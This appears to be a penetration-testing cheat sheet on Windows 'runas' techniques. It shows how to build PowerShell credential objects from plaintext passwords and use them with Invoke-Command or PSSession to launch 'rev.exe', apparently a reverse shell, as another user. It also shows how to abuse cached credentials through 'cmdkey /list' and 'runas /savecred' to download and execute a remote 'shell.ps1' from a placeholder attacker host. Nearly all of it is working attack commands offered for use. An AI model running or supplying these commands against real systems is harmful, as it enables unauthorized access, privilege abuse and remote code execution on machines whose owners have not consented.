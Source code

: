 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas"]
---
```


### Create credential object

{{< tab set1 tab1 active >}}Method #1{{< /tab >}}
{{< tab set1 tab2 >}}Method #2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

### Runas (with cred object)

{{< tab set2 tab1 active >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost
```

```console
# If error, try
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -ConfigurationName config_name
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession 1
```

{{< /tabcontent >}}

### Runas (with cache creds)

#### Check cache creds

```console
cmdkey /list
```

#### Run Command

```console
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
